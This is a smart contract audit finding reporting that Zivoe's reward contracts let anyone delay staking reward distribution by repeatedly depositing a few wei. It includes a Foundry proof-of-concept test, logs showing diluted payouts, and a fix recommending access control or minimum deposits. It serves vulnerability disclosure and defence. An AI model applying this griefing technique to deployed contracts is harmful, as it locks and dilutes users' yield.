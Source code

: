 Best Lava Dragon

medium

# Staking rewards in ZivoeRewards/ZivoeRewardsVesting can be delayed.

## Summary
ZivoeRewards and ZivoeRewardsVesting allow staking of tokens to receive yield. Currently, anyone can prolong the time for rewards to get distributed, essentially locking funds in the contract and diluting the yield for users.
## Vulnerability Detail
To deposit rewards for distribution `depositReward()` must be called. During that the rewardRate is calculated and the end timestamp of the distribution is updated.
[ZivoeRewards.sol#L241](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L241)
```solidity
rewardData[_rewardsToken].periodFinish = block.timestamp.add(
    rewardData[_rewardsToken].rewardsDuration
);
```
Because there is no access control and no minimal deposit requirements an attacker can substantially delay the rewards distribution with just few wei of donation.
## Impact
The attacker can extend the distribution time to three times the initially intended duration.
## Proof Of Concept
Please add this function to Test_ZivoeRewards.sol.
```solidity
function test_ZivoeRewards_addReward_reward_dilutionAndDelay() public {
    // Sam stakes 5000 ZVE into the ZivoeRewards contract
    vm.startPrank(address(sam));
    ZVE.approve(address(stZVE), 5000e18);
    stZVE.stake(5000e18);
    vm.stopPrank();
    // DAI is set up as rewards token with 30 days of distribution period
    // 100 DAI tokens to distribute
    uint256 amountToDistribute = 100e18;
    mint("DAI", address(bob), amountToDistribute);
    bob.try_approveToken(DAI, address(stZVE), amountToDistribute);
    vm.prank(address(bob));
    stZVE.depositReward(DAI, amountToDistribute);
    // Attacker calls depositReward(DAI, 1) each day to distribute 1 wei of a token
    mint("DAI", address(jim), 100e18);
    jim.try_approveToken(DAI, address(stZVE), amountToDistribute);
    for (uint256 i = 0; i < 30; i++) {
        vm.warp(block.timestamp + 1 days);
        vm.prank(address(jim));
        stZVE.depositReward(DAI, 1);
    }
    // Caclualte the expected and actual distributed supply
    (, uint256 periodFinish, uint256 rewardRate, , ) = stZVE.rewardData(
        DAI
    );
    uint256 remaining = periodFinish - block.timestamp;
    uint256 leftOver = remaining * rewardRate;
    console.log("Distributed supply after 30 days:");
    console.log("----------------------------------------------------");
    console2.log(
        "Distributed supply:          ",
        (amountToDistribute - leftOver) / 1e18
    );
    console2.log("Expected distributed supply:", amountToDistribute / 1e18);
    for (uint256 i = 0; i < 60; i++) {
        vm.warp(block.timestamp + 1 days);
        vm.prank(address(jim));
        stZVE.depositReward(DAI, 1);
    }
    console2.log();
    (, uint256 periodFinishNew, uint256 rewardRateNew, , ) = stZVE
        .rewardData(DAI);
    uint256 remainingNew = periodFinishNew - block.timestamp;
    uint256 leftOverNew = remainingNew * rewardRateNew;
    console.log("Distributed supply after 90 days:");
    console.log("----------------------------------------------------");
    console2.log(
        "Distributed supply:          ",
        (amountToDistribute - leftOverNew) / 1e18
    );
    console2.log("Expected distributed supply:", amountToDistribute / 1e18);
}
```
The console output of the test:
```md
Logs:
  Distributed supply after 30 days:
  ----------------------------------------------------
  Distributed supply:           63
  Expected distributed supply: 100
  
  Distributed supply after 90 days:
  ----------------------------------------------------
  Distributed supply:           95
  Expected distributed supply: 100
```
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352-L367
## Tool used

Manual Review

## Recommendation
Consider adding access control on `depositReward()` functions or introduce a minimal requirement for a deposit.
